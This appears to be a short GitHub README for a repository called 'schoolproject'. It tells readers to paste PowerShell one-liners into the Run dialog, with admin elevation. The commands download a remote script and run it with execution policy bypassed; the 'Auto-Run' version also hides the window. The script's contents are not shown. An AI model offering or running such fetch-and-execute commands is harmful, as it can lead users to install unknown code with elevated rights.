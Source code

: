 **How to run:**
- `Win`**+** `R`
- Paste:
```
powershell wget https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/run.ps1 -outfile run.ps1; powershell -ExecutionPolicy Bypass -File .\run.ps1
```
- `Ctrl` **+** `Sift` **+** `Enter`

**Auto-Run:**
```
powershell -Sta -Nop -Window Hidden wget https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/autorun.ps1 -outfile run.ps1; powershell -Sta -Nop -Window Hidden -ExecutionPolicy Bypass -File .\run.ps1
```
